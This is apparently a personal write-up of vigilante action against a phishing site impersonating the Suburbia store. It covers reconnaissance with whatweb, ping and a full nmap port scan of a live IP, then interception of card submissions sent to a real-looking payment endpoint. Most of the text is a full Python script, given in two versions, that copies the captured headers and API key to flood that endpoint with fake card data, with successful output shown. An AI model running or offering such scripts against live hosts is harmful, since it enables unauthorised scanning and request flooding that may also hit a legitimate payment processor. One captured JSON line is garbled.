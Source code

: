 
The real page looks different to the fake one, on one hand the head of the page you can see options like services, credits and account: 

![[Suburbia/ss/2.png]]

On the other hand the fake page has no account section and also its showing suspicious tags, for example "Trusted Store", purchase history from other users and last but not least really cheap price tags. 

![[Suburbia/ss/3.png]]

There are also some interesting things like incusted data from other sites such as "facebook, yahoo and analytics.yahoo"; And the most important warning, the fake URL:
Starting point: https://suburbiashop.shop

![[Suburbia/4.png]]

First we need to obtain the ip address, I got it by ussing whatweb:

```c
❯ whatweb https://suburbiashop.shop/
https://suburbiashop.shop/ [200 OK] Cookies[PHPSESSID,_fbs_fbp,axwrt,first_http_referer,first_visit_time,landing_page,order_utm_history,shop_checkout_visit_id,shop_global_visit_id,shop_global_visit_session,shop_keep_alive,utm_campaign,utm_content,utm_medium,utm_source,utm_term], Country[UNITED STATES][US], Email[services@jerrewe.shop], HTML5, HTTPServer[cloudflare], IP[104.18.4.221], Open-Graph-Protocol[website], Script[application/javascript,application/ld+json,text/javascript,text/x-template], Title[suburbia.com.mx], UncommonHeaders[x-trace-id,execution-time,trace_id,cf-cache-status,cf-ray]
```

Now we can send an ICMP trace to validate if we are against a linux or windows server:

```bash
❯ ping -c 1 104.18.4.221
PING 104.18.4.221 (104.18.4.221) 56(84) bytes of data.
64 bytes from 104.18.4.221: icmp_seq=1 ttl=59 time=36.4 ms
```

Let's also find what services are running in the server

```bash
❯ sudo nmap -p- --open -n -Pn --min-rate 5000 104.18.4.221
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-04 20:49 EDT
Nmap scan report for 104.18.4.221
Host is up (0.63s latency).
Not shown: 65527 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
80/tcp   open  http
443/tcp  open  https
2052/tcp open  clearvisn
2082/tcp open  infowave
2087/tcp open  eli
2095/tcp open  nbx-ser
8080/tcp open  http-proxy
8443/tcp open  https-alt
```

I'll jump right to the main functionality, as we know, the page its impersonating `suburbia` their purpose is  to steal user's data. Let's intercept the payment requests to see where the data is going:

![[Suburbia/ss/1.png]]

```r
POST /cvault/credit-card/temporal HTTP/2
Host: ppmcc.dlocal.com
Content-Length: 180
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Chromium";v="133", "Not(A:Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
X-Fields-Api-Key: f8e7fd3b-3450-4ca5-ac49-101712109df6
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: application/json, text/plain, */*
Content-Type: application/json
X-Uow: FI-jyrAs1743814948808
Origin: https://static.dlocal.com
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://static.dlocal.com/
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{
	"expiration_month":"09",
	"expiration_year":"2029",
	"holder_name":"John Doe",
	"pan":"1233313133313111112",
	"key":"f8e7fd3b-3450-4ca5-ac49-101712109df6",
	"country_"cvv":"691"code":"MX",
}
```

Here we notice that we are sending a post request to upload the data to:

```js
POST /cvault/credit-card/temporal HTTP/2
Host: ppmcc.dlocal.com
```

The json format is getting the input data as:

```json
{
	"expiration_month":"09",
	"expiration_year":"2029",
	"holder_name":"John Doe",
	"pan":"1233313133313111112",
	"key":"f8e7fd3b-3450-4ca5-ac49-101712109df6",
	"country_"cvv":"691"code":"MX",
}
```

With this in mind we can saturate the server by sending some trash data, just to make fun of this attackers, so lets build a python script with the required headders to impersonate the POST requests: 

```python
import requests
import random
import string
import uuid

# Random data generator function
def generate_data():
    return {
        "expiration_month": f"{random.randint(1, 12):02d}",
        "expiration_year": str(random.randint(2025, 2030)),
        "holder_name": random.choice(["John Doe", "Alice Smith", "Carlos Pérez", "Maria Garcia"]),
        "pan": "".join([str(random.randint(1, 9))] + [str(random.randint(0, 9)) for _ in range(15)]),
        "key": "f8e7fd3b-3450-4ca5-ac49-101712109df6",
        "country_code": "MX",  # corregido el error en "country_"cvv"
        "cvv": str(random.randint(100, 999))
    }

# Required headders
headers = {
    "Sec-Ch-Ua-Platform": "\"Linux\"",
    "Accept-Language": "en-US,en;q=0.9",
    "Sec-Ch-Ua": "\"Chromium\";v=\"133\", \"Not(A:Brand\";v=\"99\"",
    "Sec-Ch-Ua-Mobile": "?0",
    "X-Fields-Api-Key": "f8e7fd3b-3450-4ca5-ac49-101712109df6",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36",
    "Accept": "application/json, text/plain, */*",
    "Content-Type": "application/json",
    "X-Uow": "FI-" + ''.join(random.choices(string.ascii_letters + string.digits, k=20)),
    "Origin": "https://static.dlocal.com",
    "Sec-Fetch-Site": "same-site",
    "Sec-Fetch-Mode": "cors",
    "Sec-Fetch-Dest": "empty",
    "Referer": "https://static.dlocal.com/",
    "Accept-Encoding": "gzip, deflate, br",
    "Priority": "u=1, i"
}

# Endpoint URL
url = "https://ppmcc.dlocal.com/cvault/credit-card/temporal"

# Send POST request
def send_data():
    data = generate_data()
    response = requests.post(url, json=data, headers=headers)
    print("Status Code:", response.status_code)
    print("Response Body:", response.text)

if __name__ == "__main__":
    send_data()
```

```bash
❯ python3 poc.py
Status Code: 200
Response Body: {"token":"CV-d6646a6d-9d48-4a72-b803-301fb23e96de"}
```

Great, our request it's working so lets make a forloop to send the random generated data  in range of 1 to 100:

```python
import requests
import random
import string
import uuid

# Loop range function (For spamming requests)
def loop():
	for i in range (1,100):
		enviar_datos()
		
# Random data generator function
def generate_data():
    return {
        "expiration_month": f"{random.randint(1, 12):02d}",
        "expiration_year": str(random.randint(2025, 2030)),
        "holder_name": random.choice(["John Doe", "Alice Smith", "Carlos Pérez", "Maria Garcia"]),
        "pan": "".join([str(random.randint(1, 9))] + [str(random.randint(0, 9)) for _ in range(15)]),
        "key": "f8e7fd3b-3450-4ca5-ac49-101712109df6",
        "country_code": "MX",  # corregido el error en "country_"cvv"
        "cvv": str(random.randint(100, 999))
    }

# Required headders
headers = {
    "Sec-Ch-Ua-Platform": "\"Linux\"",
    "Accept-Language": "en-US,en;q=0.9",
    "Sec-Ch-Ua": "\"Chromium\";v=\"133\", \"Not(A:Brand\";v=\"99\"",
    "Sec-Ch-Ua-Mobile": "?0",
    "X-Fields-Api-Key": "f8e7fd3b-3450-4ca5-ac49-101712109df6",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36",
    "Accept": "application/json, text/plain, */*",
    "Content-Type": "application/json",
    "X-Uow": "FI-" + ''.join(random.choices(string.ascii_letters + string.digits, k=20)),
    "Origin": "https://static.dlocal.com",
    "Sec-Fetch-Site": "same-site",
    "Sec-Fetch-Mode": "cors",
    "Sec-Fetch-Dest": "empty",
    "Referer": "https://static.dlocal.com/",
    "Accept-Encoding": "gzip, deflate, br",
    "Priority": "u=1, i"
}

# Endpoint URL
url = "https://ppmcc.dlocal.com/cvault/credit-card/temporal"

# Send POST request
def send_data():
    data = generate_data()
    response = requests.post(url, json=data, headers=headers)
    print("Status Code:", response.status_code)
    print("Response Body:", response.text)

if __name__ == "__main__":
	loop()
```

```bash
❯ python3 poc.py
Status Code: 200
Response Body: {"token":"CV-e0e9537a-3610-48ec-a585-c2fd08d3196b"}
Status Code: 200
Response Body: {"token":"CV-9ad7ca06-6921-4c9e-bb51-0c5799816ede"}
Status Code: 200
Response Body: {"token":"CV-9d245d3a-8ff2-4aa4-bba9-292ce1fcde2b"}
Status Code: 200
Response Body: {"token":"CV-63156489-7d11-480b-a755-03ef3c8fb539"}
Status Code: 200
Response Body: {"token":"CV-a20f92ca-5c08-460b-9d1c-17d9ebad5535"}
Status Code: 200
Response Body: {"token":"CV-c1dae9b2-6d76-4ad1-80b2-a2345f2ee86d"}
Status Code: 200
Response Body: {"token":"CV-1a4ab6c9-2b8b-49d2-ba7c-b8ddf38f713d"}
Status Code: 200
Response Body: {"token":"CV-98729a6f-e7f6-424d-9a23-cedec3cad999"}
```

Cool, thats how you trick a scammer ;)

# PWNED BY ZLCube
